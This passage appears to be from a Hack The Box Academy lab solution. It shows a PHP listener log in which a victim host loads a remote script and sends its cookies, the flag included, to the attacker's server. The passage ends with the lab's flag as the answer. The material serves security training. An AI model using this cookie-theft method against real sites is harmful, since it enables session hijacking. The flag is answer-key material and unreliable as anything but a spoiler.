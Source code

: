 ![[HTB Solutions/CBBH/z. images/b82cc336689fb73955a9a5a253598706_MD5.jpg]]

On the HTTP server, students will notice that the flag `HTB{cr055_5173_5cr1p71n6_n1nj4}` is contained within the cookie value:

```javascript
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-nvwebl9plw]─[~]
└──╼ [★]$ php -S 0.0.0.0:9001
[Tue Nov 29 04:14:23 2022] PHP 7.4.30 Development Server (http://0.0.0.0:9001) started
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Accepted
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 [200]: (null) /script.js
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 [200]: GET /WebsiteField
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42534 Closing
[Tue Nov 29 04:15:15 2022] 10.129.43.173:42532 Closing
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Accepted
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1669695315;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Tue Nov 29 04:15:16 2022] 10.129.43.173:42536 Closing
```

Answer: `HTB{cr055_5173_5cr1p71n6_n1nj4}`
